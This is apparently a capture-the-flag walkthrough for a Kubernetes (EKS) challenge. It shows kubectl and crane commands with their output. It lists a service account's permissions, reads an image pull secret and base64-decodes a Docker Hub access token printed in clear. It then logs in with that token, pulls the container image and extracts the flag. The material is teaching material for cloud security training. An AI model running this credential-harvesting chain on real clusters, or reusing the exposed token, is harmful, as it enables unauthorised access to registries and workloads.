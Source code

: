 $ kubectl whoami
system:serviceaccount:challenge2:service-account-challenge2


root@wiz-eks-challenge:~# kubectl auth can-i --list
warning: the list may be incomplete: webhook authorizer does not support user rule resolution
Resources                                       Non-Resource URLs                     Resource Names     Verbs
selfsubjectaccessreviews.authorization.k8s.io   []                                    []                 [create]
selfsubjectrulesreviews.authorization.k8s.io    []                                    []                 [create]
                                                [/.well-known/openid-configuration]   []                 [get]
                                                [/api/*]                              []                 [get]
                                                [/api]                                []                 [get]
                                                [/apis/*]                             []                 [get]
                                                [/apis]                               []                 [get]
                                                [/healthz]                            []                 [get]
                                                [/healthz]                            []                 [get]
                                                [/livez]                              []                 [get]
                                                [/livez]                              []                 [get]
                                                [/openapi/*]                          []                 [get]
                                                [/openapi]                            []                 [get]
                                                [/openid/v1/jwks]                     []                 [get]
                                                [/readyz]                             []                 [get]
                                                [/readyz]                             []                 [get]
                                                [/version/]                           []                 [get]
                                                [/version/]                           []                 [get]
                                                [/version]                            []                 [get]
                                                [/version]                            []                 [get]
secrets                                         []                                    []                 [get]
pods                                            []                                    []                 [list get]
podsecuritypolicies.policy                      []                                    [eks.privileged]   [use]


$ kubectl get pods database-pod-2c9b3a4e -o yaml
apiVersion: v1
kind: Pod
metadata:
  annotations:
    kubernetes.io/psp: eks.privileged
    pulumi.com/autonamed: "true"
  creationTimestamp: "2023-11-01T13:32:05Z"
  name: database-pod-2c9b3a4e
  namespace: challenge2
  resourceVersion: "12166896"
  uid: 57fe7d43-5eb3-4554-98da-47340d94b4a6
spec:
  containers:
  - image: eksclustergames/base_ext_image
    imagePullPolicy: Always
    name: my-container
    resources: {}
    terminationMessagePath: /dev/termination-log
    terminationMessagePolicy: File
    volumeMounts:
    - mountPath: /var/run/secrets/kubernetes.io/serviceaccount
      name: kube-api-access-cq4m2
      readOnly: true
  dnsPolicy: ClusterFirst
  enableServiceLinks: true
  imagePullSecrets:
  - name: registry-pull-secrets-780bab1d
  nodeName: ip-192-168-21-50.us-west-1.compute.internal
  preemptionPolicy: PreemptLowerPriority
  priority: 0
  restartPolicy: Always
  schedulerName: default-scheduler
  securityContext: {}
  serviceAccount: default
  serviceAccountName: default
  terminationGracePeriodSeconds: 30
  tolerations:
  - effect: NoExecute
    key: node.kubernetes.io/not-ready
    operator: Exists
    tolerationSeconds: 300
  - effect: NoExecute
    key: node.kubernetes.io/unreachable
    operator: Exists
    tolerationSeconds: 300
  volumes:
  - name: kube-api-access-cq4m2
    projected:
      defaultMode: 420
      sources:
      - serviceAccountToken:
          expirationSeconds: 3607
          path: token
      - configMap:
          items:
          - key: ca.crt
            path: ca.crt
          name: kube-root-ca.crt
      - downwardAPI:
          items:
          - fieldRef:
              apiVersion: v1
              fieldPath: metadata.namespace
            path: namespace
status:
  conditions:
  - lastProbeTime: null
    lastTransitionTime: "2023-11-01T13:32:05Z"
    status: "True"
    type: Initialized
  - lastProbeTime: null
    lastTransitionTime: "2023-12-07T19:54:26Z"
    status: "True"
    type: Ready
  - lastProbeTime: null
    lastTransitionTime: "2023-12-07T19:54:26Z"
    status: "True"
    type: ContainersReady
  - lastProbeTime: null
    lastTransitionTime: "2023-11-01T13:32:05Z"
    status: "True"
    type: PodScheduled
  containerStatuses:
  - containerID: containerd://8010fe76a2bcad0d49b7d810efd7afdecdf00815a9f5197b651b26ddc5de1eb0
    image: docker.io/eksclustergames/base_ext_image:latest
    imageID: docker.io/eksclustergames/base_ext_image@sha256:a17a9428af1cc25f2158dfba0fe3662cad25b7627b09bf24a915a70831d82623
    lastState:
      terminated:
        containerID: containerd://b427307b7f428bcf6a50bb40ebef194ba358f77dbdb3e7025f46be02b922f5af
        exitCode: 0
        finishedAt: "2023-12-07T19:54:25Z"
        reason: Completed
        startedAt: "2023-11-01T13:32:08Z"
    name: my-container
    ready: true
    restartCount: 1
    started: true
    state:
      running:
        startedAt: "2023-12-07T19:54:26Z"
  hostIP: 192.168.21.50
  phase: Running
  podIP: 192.168.12.173
  podIPs:
  - ip: 192.168.12.173
  qosClass: BestEffort
  startTime: "2023-11-01T13:32:05Z"


$ kubectl get secret registry-pull-secrets-780bab1d -o yaml
apiVersion: v1
data:
  .dockerconfigjson: eyJhdXRocyI6IHsiaW5kZXguZG9ja2VyLmlvL3YxLyI6IHsiYXV0aCI6ICJaV3R6WTJ4MWMzUmxjbWRoYldWek9tUmphM0pmY0dGMFgxbDBibU5XTFZJNE5XMUhOMjAwYkhJME5XbFpVV280Um5WRGJ3PT0ifX19
kind: Secret
metadata:
  annotations:
    pulumi.com/autonamed: "true"
  creationTimestamp: "2023-11-01T13:31:29Z"
  name: registry-pull-secrets-780bab1d
  namespace: challenge2
  resourceVersion: "897340"
  uid: 1348531e-57ff-42df-b074-d9ecd566e18b
type: kubernetes.io/dockerconfigjson


$ echo "eyJhdXRocyI6IHsiaW5kZXguZG9ja2VyLmlvL3YxLyI6IHsiYXV0aCI6ICJaV3R6WTJ4MWMzUmxjbWRoYldWek9tUmphM0pmY0dGMFgxbDBibU5XTFZJNE5XMUhOMjAwYkhJME5XbFpVV280Um5WRGJ3PT0ifX19" | base64 -d
{"auths": {"index.docker.io/v1/": {"auth": "ZWtzY2x1c3RlcmdhbWVzOmRja3JfcGF0X1l0bmNWLVI4NW1HN200bHI0NWlZUWo4RnVDbw=="}}}


$ echo "ZWtzY2x1c3RlcmdhbWVzOmRja3JfcGF0X1l0bmNWLVI4NW1HN200bHI0NWlZUWo4RnVDbw=="
 | base64 -d
eksclustergames:dckr_pat_YtncV-R85mG7m4lr45iYQj8FuCo


$ crane auth login index.docker.io -u eksclustergames -p dckr_pat_YtncV-R85mG7m4lr
45iYQj8FuCo
2023/12/14 10:35:41 logged in via /home/user/.docker/config.json


$ crane pull eksclustergames/base_ext_image /tmp/image.tar


$ cd /tmp


$ tar -xvf image.tar 
sha256:add093cd268deb7817aee1887b620628211a04e8733d22ab5c910f3b6cc91867
3f4d90098f5b5a6f6a76e9d217da85aa39b2081e30fa1f7d287138d6e7bf0ad7.tar.gz
193bf7018861e9ee50a4dc330ec5305abeade134d33d27a78ece55bf4c779e06.tar.gz
manifest.json


$ tar -xvf 193bf7018861e9ee50a4dc330ec5305abeade134d33d27a78ece55bf4c779e06.tar.gz 
etc/
flag.txt
proc/
proc/.wh..wh..opq
sys/
sys/.wh..wh..opq


$ cat flag.txt
wiz_eks_challenge{nothing_can_be_said_to_be_certain_except_death_taxes_and_the_exisitense_of_misconfigured_imagepullsecret}
